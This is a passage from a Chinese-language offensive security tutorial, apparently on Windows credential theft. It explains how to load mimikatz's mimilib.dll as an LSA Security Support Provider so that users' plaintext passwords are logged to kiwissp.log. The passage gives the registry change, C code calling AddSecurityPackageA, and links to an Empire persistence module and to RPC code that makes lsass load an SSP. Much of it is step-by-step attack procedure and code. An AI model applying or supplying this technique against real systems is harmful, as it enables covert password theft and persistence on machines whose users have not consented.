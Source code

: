 位置`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\`

`Security Packages`的值设置为`mimilib.dll`

(3)等待系统重新启动

系统重新启动后，在`c:\windows\system32`生成文件`kiwissp.log`，记录当前用户的明文口令

### 方法2：使用API AddSecurityPackage

(1)复制文件

同方法1

(2)修改注册表

同方法1

(3)调用AddSecurityPackage

测试代码如下：

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")


int main(int argc, char **argv) {
	SECURITY_PACKAGE_OPTIONS option;
	option.Size = sizeof(option);
	option.Flags = 0;
	option.Type = SECPKG_OPTIONS_TYPE_LSA;
	option.SignatureSize = 0;
	option.Signature = NULL;
	SECURITY_STATUS SEC_ENTRYnRet = AddSecurityPackageA("mimilib", &option);
	printf("AddSecurityPackage return with 0x%X\n", SEC_ENTRYnRet);
}
```

添加成功，如果此时输入了新的凭据(例如runas，或者用户锁屏后重新登录)，将会生成文件`kiwissp.log`

方法2的自动化实现：

https://github.com/EmpireProject/Empire/blob/e37fb2eef8ff8f5a0a689f1589f424906fe13055/data/module_source/persistence/Install-SSP.ps1

### 方法3：使用RPC控制lsass加载SSP

XPN开源的代码：

https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e

我在VS2015下使用，代码需要简单修改一下

测试如下图
